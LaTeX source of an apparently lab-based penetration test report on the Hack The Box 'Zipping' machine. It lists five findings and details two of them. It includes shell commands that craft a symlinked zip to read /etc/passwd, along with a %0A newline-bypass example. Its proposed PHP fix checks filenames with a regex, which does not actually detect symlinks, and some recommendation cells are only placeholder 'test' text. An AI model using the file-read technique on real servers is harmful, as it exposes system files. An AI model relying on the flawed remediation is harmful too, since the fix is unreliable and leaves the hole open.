\documentclass[a4paper]{article} % Formato de plantilla que vamos a utilizar

\author{Elliot Alderson}

\usepackage[utf8]{inputenc}
\usepackage[spanish]{babel}
\usepackage[margin=2cm, top=2cm, includefoot]{geometry} % Para establecer los márgenes del documento
\usepackage{graphicx} % Para poder insertar imágenes
\usepackage[table,xcdraw]{xcolor} % Para la representación de colores
\usepackage{tikz,lipsum,lmodern} % Para la creación de cajas
\usepackage[most]{tcolorbox} % Para la incorporación de colores en la caja
\usepackage{fancyhdr} % Define el estilo de la página
\usepackage[hidelinks]{hyperref} % Gestión de hipervínculos
\usepackage{setspace} % Para asignar espacio entre líneas
\setstretch{1.2} % Para que haya un espacio entre líneas
\usepackage{parskip} % Elimina el sangrado(quitar tabulador inicial
\usepackage[figurename=Imagen]{caption} % Para cambiar el nombre del caption donde pone 'Figura'
\usepackage{ragged2e} % Para jugar con \justifying de cara a cuando hayamos terminado un \centering
\usepackage{listings} % Para la inserción de código
\usepackage{lipsum} % Para generar texto de ejemplo
\usepackage{tabularx} % Para generar tablas
\usepackage{array} % Necesario para definir el ancho de las columnas
\usepackage{enumitem} % Para personalizar las listas

\setlength{\parindent}{0pt}
\setlength{\parskip}{0.8em plus 0.5em minus 0.2em} % Establece el espacio entre párrafos en 1em (un espacio de fuente) más 0.5em de espacio extra permitido, con una reducción máxima de 0.2em

\renewcommand{\arraystretch}{1.5} % Ajusta la altura de la fila para centrar verticalmente el contenido

% Información de contacto del Cliente
\newcommand{\clientName}{Hack The Box 2}
\newcommand{\clientTitle}{CISO}
\newcommand{\clientEmail}{john.smith@demo.com}
\newcommand{\clientPhone}{(555) 555-5555}

% Información de contacto del Autor
\newcommand{\theAuthor}{Elliot Alderson}
\newcommand{\theAuthorTitle}{Lead Penetration Tester}
\newcommand{\theAuthorEmail}{elliot.alderson@proton.me}

% Declaración de variables personalizadas
\newcommand{\logoPortada}{images/zipping.png}
\newcommand{\logoClient}{images/htb.png}
\newcommand{\mainTitle}{Zipping Penetration Testing Report}
\newcommand{\startDatePentest}{24 de Marzo del 2024}
\newcommand{\finalDatePentest}{24 de Marzo del 2024}
\newcommand{\version}{1.0}

% Colores
\definecolor{blueColor}{HTML}{2e75b5}
\definecolor{lightBlueColor}{HTML}{bbd4ec}
\definecolor{criticalColor}{HTML}{c00000}
\definecolor{highColor}{HTML}{ff0000}
\definecolor{moderateColor}{HTML}{ffc000}
\definecolor{lowColor}{HTML}{43b02a}
\definecolor{informationalColor}{HTML}{0070c0}
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\newtcolorbox{definicion} {
	breakable,
	enhanced,
	colback=white,
	colframe=blueColor!75!black,
	arc=0mm,
	boxrule=1pt,
	leftrule=12mm,
	fonttitle=\bfseries,
	coltitle=blueColor!75!black,
	title=Definición,
	attach title to upper=\par
}

% Configuraciones para los bloques de código
\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{style=mystyle}

% Adicionales
\addto\captionsspanish{\renewcommand{\contentsname}{Table of Contents}} % Renombra el título del indice
\setlength{\headheight}{40.2pt}

\usepackage{titletoc}

\titlecontents{section}
  [1.5em]
  {\contentslabel{2.3em}}
  {\contentslabel{2.3em}}
  {}
  {\titlerule*[0.5pc]{.}\contentspage}

% Head
% \lhead{
\includegraphics[height=1cm]{\logoPortada}}\rhead{
\includegraphics[height=1cm]{\logoPortada}}
\lhead{}\rhead{\includegraphics[height=1cm]{\logoClient}}
\renewcommand{\headrulewidth}{0.2pt} % Para aumentar el tamaño de la barra
\renewcommand{\headrule}{\hbox to\headwidth{\color{black}\leaders\hrule height \headrulewidth\hfill}}
\renewcommand{\lstlistingname}{Código} % Para cambiar 'Código' en el código

% Footer
\pagestyle{fancy}
\lfoot{ \fancyplain{}{\theAuthor} }
\fancyfoot[C]{Copyright \copyright{} \clientName}
\rfoot{ \fancyplain{}{\thepage} }

\begin{document} % Inicio del documento
    %------------------------------------------------------------------------------------------------------------------------
	\begin{titlepage}
		\centering
		{\fontsize{26}{13}{\textbf{\mainTitle}}} % titulo principal
		\vfill
		{\fontsize{24}{12}\selectfont{\clientName}\par} % nombre del cliente
        {\fontsize{12}{14}\selectfont\textbf{By}\par}
        {\fontsize{16}{14}\selectfont{\theAuthor}\par} % autor del documento
        {\large{Versión \version}\par} % versión del documento
		\vfill
		
\includegraphics[width=0.35\textwidth]{\logoPortada} % logo de la portada
		\vfill
        % alerta de confidencialidad
		\begin{tcolorbox}[colback=red!5!white,colframe=red!75!black]
			\centering
		  Este documento es confidencial y contiene información sensible.\\No debería ser impreso y compartido con terceras entidades.
		\end{tcolorbox}
		\vfill
		{\large \startDatePentest}
		\vfill
	\end{titlepage}
    %------------------------------------------------------------------------------------------------------------------------

    % Tabla de contenido
    \clearpage
	\tableofcontents
	\clearpage
    % Fin de la Tabla de contenido

    % Declaración de confidencialidad
    \section{Confidentiality Statement}
    This document is the exclusive property of {\clientName} and {\theAuthor}. This document contains proprietary and confidential information. Duplication, redistribution, or use, in whole or in part, in any form, requires consent of both {\clientName} and {\theAuthor}.

    {\clientName} may share this document with auditors under non-disclosure agreements to demonstrate penetration test requirement compilance.

    % Este documento es propiedad exclusiva de \textbf{\clientName} y \textbf{\theAuthor}. Contiene información confidencial y propietaria. La duplicación, redistribución o uso, total o parcial, en cualquier forma, requiere el consentimiento tanto de \textbf{\clientName} como de \textbf{\theAuthor}.

    % \textbf{{\clientName}} puede compartir este documento con auditores bajo acuerdos de confidencialidad para demostrar el cumplimiento de los requisitos de la prueba de penetración.
    % Fin Declaración de confidencialidad
    \clearpage

    % Inicio Descargo de responsabilidad
    \section{Disclaimer} % Disclaimer
    A penetration test is considered a snapshot in time. The findings and recommendations reflect the information gathered during the assessment and not any changes or modifications made outside of that period.

    Time-limited engagements do not allow for a full evaluations of all security controls. {\theAuthor} prioritized the assessment to identify the weakest security controls an attacker would exploit. {\theAuthor} recommends conducting similar assessments on an annual basis by internal or third-party assessors to ensure the continued success of the controls.
    
    % Una prueba de penetración se considera una instantanea en el tiempo. Los hallazgos y recomendaciones reflejan la información recopilada durante la evaluación y no culaquier cambio o modificación realizada fuera de ese período.
    % Los compromisos limitados en el tiempo no permiten una evaluación completa de todos los controles de seguridad. \textbf{\theAuthor} priorizó la evaluación para identificar los controles de seguridad más débiles que un atacante explotaría. \textbf{\theAuthor} recomienda realizar evaluaciones similares de forma anual por evaluadores internos o de terceros para garantizar el éxito continuo de los controles.
    % Fin Descargo de responsabilidad
    \clearpage
    
    % Inicio Información de contacto
    \section{Contact Information} % Contact Information
    \begin{table}[htbp]
        \begin{tabularx}{\textwidth}{|X|X|p{6cm}|}
            \hline
            \rowcolor{gray}
            \textbf{\textcolor{white}{Name}} & \textbf{\textcolor{white}{Title}} & \textbf{\textcolor{white}{Contact Information}} \\
            \hline
            \rowcolor{lightgray}
            \multicolumn{3}{|l|}{\textbf{\clientName}} \\
            \hline
            {\clientName} & {\clientTitle} 2 & \parbox[t]{6cm}{Office: \texttt{{\clientPhone}} \\ Email: \texttt{{\clientEmail}}} \\
            \hline
            \rowcolor{lightgray}
            \multicolumn{3}{|l|}{\textbf{\theAuthor}} \\
            \hline
            {\theAuthor} & {\theAuthorTitle} & Email: \texttt{\theAuthorEmail} \\
            \hline
        \end{tabularx}
    \end{table}
    % Fin Información de contacto
    \clearpage

    % Inicio Resumen de Evaluación
    \section{Assessment Overview} % Assessment Overview
    From {\startDatePentest} to {\finalDatePentest}, {\clientName} engaged {\theAuthor} to evaluate the security posture of its infraestrucure compared to current industry best practices that included an internal network penetration test. All testing performed is based on the NIST SP 800-115 Techinical Guide to Information Security Testing and Assessment, OWASP Testing Guide (v4), and customized testing frameworks.

    Phases of penetration testing activities include the following:

    \begin{enumerate}[label=\textit{\arabic*.}]
        \item \textbf{Planning:} Customer goals are gathered and rules of engaggment obtained.
        \item \textbf{Discovery:} Perform scanning and enumeration to identify potential vulnerabilities, weak areas, and exploits.
        \item \textbf{Attack} Confirm potential vulnerabilities through explotation and perform additional discovery upon new access.
        \item \textbf{Reporting:} Document all found vulnerabilities and exploits, failed attempts, and company strengths and weaknesses.
    \end{enumerate}

    % Desde el \textbf{{\startDatePentest}} hasta \textbf{{\finalDatePentest}}, \textbf{{\clientName}} contrató a \textbf{{\theAuthor}} para evaluar la postura de seguridad de su infraestructura en comparación con las mejores práctias de la industria actual, lo que incluyó una prueba de penetración interna.

    % Las fases de las actividades de prueba de penetración incluyen lo siguiente:

    % \begin{enumerate}[label=\textit{\arabic*.}]
    %     \item \textbf{Planificación:} Se recopilan los objetivos del cliente y se obtienen las reglas de compromiso.
    %     \item \textbf{Descubrimiento:} Realizar exploraciones y enumeración para identificar posibles vulnerabilidades, áreas débiles y exploits.
    %     \item \textbf{Ataque:} Confirmar posibles vulnerabilidades a través de la explotación y realizar descubrimientos adicionales al obtener nuevo acceso.
    %     \item \textbf{Informe:} Documentar todas las vulnerabilidades y exploits encontrados, intentos fallidos, así como las fortalezas y debilidades de la empresa.
    % \end{enumerate}
    % Fin Resumen de Evaluación

    \section{Assessment Components}
    \subsection{Internal Penetration Test}
    An internal penetration test emulates the role of an attacker from inside the network. An engineer will scan the network to idenfiy potential host vulnerabilities and perform common and advanced internal network attacks, such as: LLMNR/NBT-NS poisoning and other man-in-the-middle attacks, token impersonation, kerberoasting, pass-the-hash, golden ticket, and more. The engineer will seek to gain access to hosts trough lateral movement, compromise domain user and admin accounts, and exfiltrate sensitive data.

    \clearpage
    % Inicio Clasificación de Gravedad de Hallazgos % Finding Severity Raitings
    \section{Finding Severity Raitings}
    The following table defines levels of severity and corresponding CVSS score range that are used throughout the document to assess vulnerability and risk impact.
    %La siguiente tabla define los niveles de gravedad y el rango de puntuación CVSS correspondiente que se utilizan en todo el documento para evaluar la vulnerabilidad y el impacto del riesgo.
    \vspace{0.3cm}

    \vspace{0.3cm}

    \begin{table}[htbp]
        \centering
        \begin{tabularx}{\textwidth}{|>{\centering\arraybackslash}X|>{\centering\arraybackslash}X|>{\centering\arraybackslash}p{10cm}|}
            \hline
            \rowcolor{gray}
            \textbf{\textcolor{white}{Severity}} & \textbf{\textcolor{white}{CVSS V3 Score Range}} & \textbf{\textcolor{white}{Definition}} \\
            \hline
            \cellcolor{criticalColor}\textbf{Critical} & 
            {9-10} & 
            \parbox[t]{10cm}{
                Exploitation is straightforward and usually results in system-level compromise. It is advised to form a plan of action and patch immediateley.
            } \\
            \hline
            \cellcolor{highColor}\textbf{High} & 
            {7-8} & 
            \parbox[t]{10cm}{
                Exploitation is more difficult but could cause elevated privileges and potentially a loss of data or downtime. It is advised to form a plan of action and patch as soon as possible.
            } \\
            \hline
            \cellcolor{moderateColor}\textbf{Moderate} & 
            {4-6} & 
            \parbox[t]{10cm}{
                Vulnerabilities exist but are not exploitable or require extra steps such as social engineering. It is advised to form a plan of action and patch after high-priority issues have been resolved.
            } \\
            \hline
            \cellcolor{lowColor}\textbf{Low} & 
            {1-3} & 
            \parbox[t]{10cm}{
                Vulnerabilities are non-exploitable but would reduce an organization's attack surface. It is advice to form a plan of action and patch during the next maintenance window.
            } \\
            \hline
            \cellcolor{informationalColor}\textbf{Informational} & 
            {N/A} & 
            \parbox[t]{10cm}{
                No vulnerability exists. Additional information is provided regarding itemas noticed during testing, strong controls, and additional documentation.
            } \\
            \hline
        \end{tabularx}
    \end{table}
    % Fin Clasificación de Gravedad de Hallazgos

    \section{Risk Factors}
    Risk is measured by two factors \textbf{Likelihood} y \textbf{Impact}
    
    \subsection{Likelihood}
    Likelihood measures the potential of a vulnerability being exploited. Raitings are given based on the difficulty of the attack, the available tools, attacker skill level, and client enviroment.

    \subsection{Impact}
    Impact measures the potential vulnerabilities effect on operations, including confidentiality, integrity, and availabiility of client systems and / or data, reputational harm, and financial loss.
    
    % \subsection{Likelihood} % Probabilidad
    % La probabilidad mide el potencial de explotación de una vulnerabilidad. Las calificaciones se otorgan en función de la dificultad del ataque, las herramientas disponibles, el nivel de habilidad del atacante y el entorno del cliente.

    % \subsection{Impact} % Impacto
    % El impacto mide el efecto potencial de la vulnerabilidad en las operaciones, incluyendo la confidencialidad, integridad y disponibilidad de los sistemas y/o datos del cliente, el daño reputacional y la pérdida financiera.

    \clearpage

    \section{Scope} % Alcance
    \begin{table}[htbp]
        \begin{tabularx}{\textwidth}{|X|X|}
            \hline
            \rowcolor{blueColor}
            \textbf{\textcolor{white}{Assessment}} & \textbf{\textcolor{white}{Details}} \\
            \hline
            {Internal Penetration Test} & {10.10.11.229} \\
            \hline
        \end{tabularx}
    \end{table}

    \subsection{Scope Exclusions}

    During the auditing process, and at the request of the client {\clientName}, it is strictly forbidden to carry out any of the following activities:
    
    \begin{itemize}
        \item Performing tasks that may cause a denial of service (DoS) or affect the availability of the exposed services.
        \item Deleting files resident on the server once it has been compromised.
    \end{itemize}
    
    \subsection{Client Allowances}
    {\clientName} provided {\theAuthor} with the following concessions:

    \begin{itemize}
        \item Identifying vulnerable ports and services.
        \item Exploiting the vulnerabilities found.
        \item Gaining access to the server by exploiting the identified vulnerable services.
        \item Enumerating potential avenues to escalate privileges in the system once it has been compromised.
    \end{itemize}

    \clearpage

    \section{Executive Summary}
    \textbf{\theAuthor} evaluó la postura de seguridad del examen de \textbf{\clientName} mediante una prueba de penetración de tipo interna desde \textbf{{\startDatePentest}} hasta el \textbf{{\finalDatePentest}}. Al aprovechar una serie de ataques, {\theAuthor} encontró vulnerabilidades de nivel crítico que comprometieron el entorno del examen y los objetivos de aprobación. Se recomienda encarecidamente que \textbf{\clientName} aborde estas vulnerabilidades lo antes posible, ya que son fácilmente detectables a través de reconocimiento básico y son explotables sin mucho esfuerzo.

    \section{Testing Summary}
    En esta sección, se deben describir las vulnerabilidades identificads y proporciona información básica sobre el impacto de la explotación.

    \clearpage
    \section{Vulnerability Summary \& Report Card}
    The following table ilustrate the vulnerabilities found by impact and recommended remendations:

    \subsection{Internal Penetration Testing Findings}

    \begin{table}[htbp]
        \begin{tabularx}{\textwidth}{|>{\centering\arraybackslash}X|>{\centering\arraybackslash}X|>{\centering\arraybackslash}X|>{\centering\arraybackslash}X|>{\centering\arraybackslash}X|}
            \hline
            \cellcolor{criticalColor}\textbf{2} &
            \cellcolor{highColor}\textbf{2} &
            \cellcolor{moderateColor}\textbf{1} &
            \cellcolor{lowColor}\textbf{0} &
            \cellcolor{informationalColor}\textbf{0} \\
            \hline
            {Critical} &
            {High} &
            {Moderate} &
            {Low} &
            {Informational} \\
            \hline
        \end{tabularx}
    \end{table}

    \begin{table}[htbp]
        \begin{tabularx}{\textwidth}{|X|>{\centering\arraybackslash}X|}
            \hline
            \cellcolor{lightBlueColor}\textbf{Total of Vulnerabilities} &
            {5} \\
            \hline
        \end{tabularx}
    \end{table}

    \begin{table}[htbp]
        \centering
        \begin{tabularx}{\textwidth}{|X|c|X|}
            \hline
            \rowcolor{blueColor}
            \textbf{\textcolor{white}{Finding}} &
            \textbf{\textcolor{white}{Severity}} &
            \textbf{\textcolor{white}{Recommendation}} \\
            \hline
            \multicolumn{3}{|l|}{\cellcolor{lightBlueColor}\textbf{Internal Penetration Test}} \\
            \hline
            \textbf{Vulnerability 001:} Zip Symlink Upload: La técnica Zip Symlink Upload es una vulnerabilidad que afecta a los sistemas web que permiten a los usuarios cargar archivos comprimidos (zip) y luego descomprimirlos en el servidor. Esta técnica se aprovecha de la posibilidad de crear enlaces simbólicos (symlinks) dentro del archivo zip. &
            \cellcolor{highColor}\textbf{High} &
                \begin{itemize}
                    \item Validación del contenido del archivo zip
                    \item Desinfección del nombre del archivo
                    \item Limitar la extracción a directorios específicos
                    \item Restringir el tamaño máximo del archivo zip
                    \item Auditorías de seguridad regulares
                \end{itemize} \\
            \hline
            \textbf{Vulnerability 002:} New line bypass: La vulnerabilidad conocida como \verb|"New line bypass"| en la función \verb|preg_match| se refiere a una vulnerabilidad de seguridad que puede ocurrir cuando se utiliza incorrectamente la función \verb|preg_match| en PHP para realizar coincidencias de expresiones regulares en cadenas de texto que contienen datos no confiables. &
            \cellcolor{criticalColor}\textbf{Critical} &
                \begin{itemize}
                    \item test
                \end{itemize} \\
            \hline
            \textbf{Vulnerability 003:} SQL Injection: La inyección SQL es una vulnerabilidad de seguridad que afecta a las aplicaciones web que interactúan con bases de datos mediante consultas SQL. La vulnerabilidad ocurre cuando un atacante puede manipular los datos de entrada de una aplicación web para ejecutar comandos SQL no deseados en la base de datos subyacente. &
            \cellcolor{criticalColor}\textbf{Critical} &
                \begin{itemize}
                    \item test
                \end{itemize} \\
            \hline
            \textbf{Vulnerability 004:} Hardcoded Password: Esta vulnerabilidad ocurre cuando las credenciales de autenticación, como contraseñas o claves de acceso, se almacenan directamente en el código fuente de una aplicación en lugar de ser gestionadas de forma segura, como almacenarlas en una base de datos segura o utilizar métodos de autenticación más robustos.&
            \cellcolor{highColor}\textbf{High} &
                \begin{itemize}
                    \item test
                \end{itemize} \\
            \hline
            \textbf{Vulnerability 005:} Linux Shared Library Hijacking: Esta vulnerabilidad (también conocida como “DLL hijacking” en sistemas Windows) es una vulnerabilidad de seguridad que ocurre cuando un programa ejecutable carga una biblioteca dinámica (comúnmente un archivo .so en sistemas Linux) usando un nombre relativo o sin especificar una ruta completa. Si la biblioteca no se encuentra en la ubicación esperada, el sistema operativo buscará en varios directorios del sistema, y un atacante podría aprovechar esto colocando una versión maliciosa de la biblioteca en uno de esos directorios, lo que permitiría ejecutar código arbitrario.&
            \cellcolor{moderateColor}\textbf{Moderate} &
                \begin{itemize}
                    \item test
                \end{itemize} \\
            \hline
        \end{tabularx}
    \end{table}

    \clearpage

    \section{Techinical findings}
    \subsection{Target - 10.10.11.229}
    \subsubsection{\textbf{Vulnerability 001 - Zip Symlink Upload}}
    \begin{table}[htbp]
        \begin{tabularx}{\textwidth}{|c|X|}
            \hline
            \cellcolor{lightgray}\textbf{Description:} & 
            {
                La técnica Zip Symlink Upload es una vulnerabilidad que afecta a los sistemas web que permiten a los usuarios cargar archivos comprimidos (zip) y luego descomprimirlos en el servidor. Esta técnica se aprovecha de la posibilidad de crear enlaces simbólicos (symlinks) dentro del archivo zip. \newline\newline
                \vspace{0.3cm}
                El ataque se lleva a cabo de la siguiente manera:
                
                \begin{enumerate}[label=\textit{\arabic*.}]
                \item El atacante crea un archivo zip que contiene un enlace simbólico que apunta a un archivo o directorio sensible en el sistema de archivos del servidor.

                \item El atacante carga este archivo zip malicioso en la aplicación web que permite la carga de archivos.

                \item Cuando la aplicación descomprime el archivo zip en el servidor, sigue los enlaces simbólicos y puede acceder a los archivos o directorios sensibles, potencialmente comprometiendo la seguridad del sistema.
                \end{enumerate}
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Severity:} &
            {
                High
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Vulnerability ID:} &
            {-} \\
            \hline
            \cellcolor{lightgray}\textbf{Risk:} &
            {
                Likelihood - Dado que la vulnerabilidad es conocida y puede ser fácilmente explotable por un atacante con conocimientos técnicos, la probabilidad de explotación se consideraría alta.
                \newline
                Impact - La capacidad de un atacante para acceder a archivos sensibles o realizar acciones no autorizadas en el servidor mediante la explotación de esta vulnerabilidad puede tener un impacto significativo en la confidencialidad y la integridad.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Tools Used:} &
            {
                Burpsuite y curl.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{References:} &        
            {
                \href{https://book.hacktricks.xyz/pentesting-web/file-upload\#zip-tar-file-automatically-decompressed-upload}{File Upload - HackTricks}
            } \\
            \hline
        \end{tabularx}
    \end{table}

    \textbf{Evidence}

    En primer lugar, debemos crear un archivo \textbf{.pdf} el cual contenga un enlace simbólico que apunte a un archivo del sistema, por ejemplo: \textbf{/etc/passwd}.
    
    \vspace{0.2cm}

    \begin{lstlisting}[language=bash, caption=Creación del archivo pdf]
    ln -s /etc/passwd file.pdf
    zip --symlinks file.zip file.pdf
    \end{lstlisting}
    
    \clearpage

    Luego, subimos el archivo .zip a través del formulario del sitio web.

    \begin{figure}[h]
	\centering
	\setlength{\fboxrule}{0.5pt}
	\makebox[\textwidth]{\fbox{
\includegraphics[width=0.60\textwidth]{images/uploadZipFile.png}}}
	\caption{Subida del archivo ZIP}
    \end{figure}

    Por ultimo, obtenemos el contenido del archivo a través de una petición con la herramienta curl.

    \begin{figure}[h]
	\centering
	\setlength{\fboxrule}{0.5pt}
	\makebox[\textwidth]{\fbox{
\includegraphics[width=0.80\textwidth]{images/curl-01.png}}}
	\caption{Petición a través de curl}
    \end{figure}

    \clearpage

    \textbf{Remediation}

    Como principal medida para prevenir este tipo de ataques, es fundamental realizar una validación exhaustiva del contenido del archivo zip antes de extraerlo. Esto incluye escanear el archivo en busca de enlaces simbólicos maliciosos u otros archivos no deseados que podrían ser utilizados para comprometer la seguridad del servidor.

    Aquí hay algunas adiciones que podrían implementarse en el código para abordar específicamente la vulnerabilidad de Zip Symlink Upload:

    \begin{lstlisting}[language=php, caption=Archivo upload.php]
    <?php
    if(isset($_POST['submit'])) {
        // Check if a file was uploaded
        if (!isset($_FILES['zipFile']) || $_FILES['zipFile']['error'] !== UPLOAD_ERR_OK) {
            echo "<p>Error uploading file.</p>";
            exit;
        }

        // Get the uploaded zip file
        $zipFile = $_FILES['zipFile']['tmp_name'];

        // Check file size
        if ($_FILES["zipFile"]["size"] > 300000) {
            echo "<p>File size must be less than 300,000 bytes.</p>";
            exit;
        }

        // Create a new directory for the extracted files
        $uploadDir = "uploads/";
        if (!file_exists($uploadDir)) {
            mkdir($uploadDir, 0755, true); // Create directory if it doesn't exist
        }

        // Extract the files from the zip
        $zip = new ZipArchive;
        if ($zip->open($zipFile) === true) {
            // Check if there's only one file in the zip
            if ($zip->numFiles !== 1) {
            echo '<p>Please include a single PDF file in the archive.<p>';
            exit;
            }

            // Extract the single file from the zip
            $extractedFileName = $zip->getNameIndex(0);
            if (pathinfo($extractedFileName, PATHINFO_EXTENSION) !== "pdf") {
            echo "<p>The unzipped file must have a .pdf extension.</p>";
            exit;
            }

            // Check if the extracted file contains any symbolic links
            if (preg_match('/\.+\/\S*[\s\/]*\.\.\/\S*/', $extractedFileName) === 1) {
            echo "<p>Error: Symbolic links detected in the zip file.</p>";
            exit;
            }

            // Generate a unique filename
            $newFileName = uniqid('uploaded_', true) . '.pdf';
            $extractedFilePath = $uploadDir . $newFileName;

            // Extract the file
            if (!$zip->extractTo($uploadDir, $extractedFileName)) {
            echo "<p>Error extracting file.</p>";
            exit;
            }

            // Rename the extracted file
            if (!rename($uploadDir . $extractedFileName, $extractedFilePath)) {
            echo "<p>Error renaming file.</p>";
            exit;
            }

            echo '<p>File successfully uploaded and unzipped. Access it <a href="' . $extractedFilePath . '">here</a>.</p>';

            // Close the zip file
            $zip->close();
        } else {
            echo "Error opening zip file.";
        }
    }
    ?>
    \end{lstlisting}

    % \verb permite incluir caracteres sin que Latex los interprete

    En esta versión mejorada, se agregó una verificación adicional después de extraer el archivo zip para buscar posibles enlaces simbólicos dentro del nombre de archivo. La expresión regular utilizada \verb|('/\.+\/\S*[\s\/]*\.\.\/\S*/')| busca patrones que podrían indicar la presencia de enlaces simbólicos.

    Si se detecta un patrón de enlace simbólico en el nombre del archivo extraído, el proceso se detiene y se muestra un mensaje de error. Esto ayuda a prevenir la explotación de la vulnerabilidad de Zip Symlink Upload al evitar la extracción de archivos que contienen enlaces simbólicos maliciosos.

    \clearpage

    Aquí hay otras mejoras sugeridas para mitigar esta vulnerabilidad:

    \begin{enumerate}[label=\textit{\arabic*.}]
        \item \textbf{Validación del contenido del archivo zip:} Antes de extraer el archivo zip, se debe realizar una validación exhaustiva del contenido para garantizar que solo se permitan archivos seguros y esperados. Esto incluye verificar el tipo de archivo y realizar escaneos de seguridad para detectar posibles amenazas, como enlaces simbólicos.
        \item \textbf{Desinfección del nombre del archivo:} Antes de realizar cualquier acción con los archivos extraídos, es importante desinfectar los nombres de archivo para evitar ataques de manipulación de nombres de archivo (por ejemplo, \verb|".."| en el nombre del archivo).
        \item \textbf{Limitar la extracción a directorios específicos:} En lugar de extraer los archivos directamente en un directorio determinado por el usuario, se recomienda limitar la extracción a un directorio controlado y seguro en el servidor.
        \item \textbf{Restringir el tamaño máximo del archivo zip:}  Además de la restricción de tamaño del archivo zip, se deben establecer límites estrictos para garantizar que los archivos zip sean de un tamaño razonable y no se puedan utilizar para agotar los recursos del servidor.
        \item \textbf{Auditorías de seguridad regulares:}  Es importante realizar auditorías de seguridad periódicas para identificar y corregir posibles vulnerabilidades en el código, incluida la forma en que se manejan y procesan los archivos cargados por los usuarios.
    \end{enumerate}
    
    \clearpage

    \subsubsection{\textbf{Vulnerability 002 - New line bypass}}
    \begin{table}[htbp]
        \begin{tabularx}{\textwidth}{|c|X|}
            \hline
            \cellcolor{lightgray}\textbf{Description:} & 
            {
                
                La vulnerabilidad conocida como \verb|"New line bypass"| en la función \verb|preg_match| se refiere a una vulnerabilidad de seguridad que puede ocurrir cuando se utiliza incorrectamente la función \verb|preg_match| en PHP para realizar coincidencias de expresiones regulares en cadenas de texto que contienen datos no confiables.
                \newline\newline
                La vulnerabilidad se produce cuando un atacante puede manipular los datos de entrada de tal manera que pueden pasar por alto las restricciones de seguridad establecidas por el desarrollador del sistema. Esto puede ocurrir cuando se permite que un usuario externo controle parte de la cadena de texto que se pasa como entrada a \verb|preg_match|.
                \newline\newline
                En el contexto de las URL, como es en este caso que se esta esperando un parámeotro por GET, \%0A| representa un carácter de nueva línea \verb|(\n en ASCII hexadecimal)| codificado en formato URL. Esto significa que, al incluir \%0A en una URL como parámetro, estás efectivamente insertando un carácter de nueva línea en la cadena de consulta de la URL.

                Por ejemplo, si el script PHP espera recibir un correo electrónico a través de la URL y utiliza \verb|preg_match| para validarlo, un atacante podría intentar enviar una dirección de correo electrónico maliciosa como exploit\%0A@example.com|. Si el script no está correctamente protegido, este ataque podría permitir que el atacante evite la validación y realice acciones maliciosas.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Severity:} &
            {
                Critical
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Vulnerability ID:} &
            {-} \\
            \hline
            \cellcolor{lightgray}\textbf{Risk:} &
            {
                Likelihood - Dado que la vulnerabilidad es conocida y puede ser fácilmente explotable por un atacante con conocimientos técnicos, la probabilidad de explotación se consideraría critica.
                \newline
                Impact - El impacto de esta vulnerabilidad es critico, dado que permite aprovecharse de otra vulnerabilidad para insertar código malicioso.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Tools Used:} &
            {
                Burpsuite.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{References:} &        
            {
                \href{https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp\#new-line-bypass}{https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp\#new-line-bypass}
            } \\
            \hline
        \end{tabularx}
    \end{table}
    
    \clearpage

    \textbf{Evidence}

    En primer lugar, interceptamos la petición con Burp Suite y la enviamos al Repeater.

    \begin{figure}[h]
	\centering
	\setlength{\fboxrule}{0.5pt}
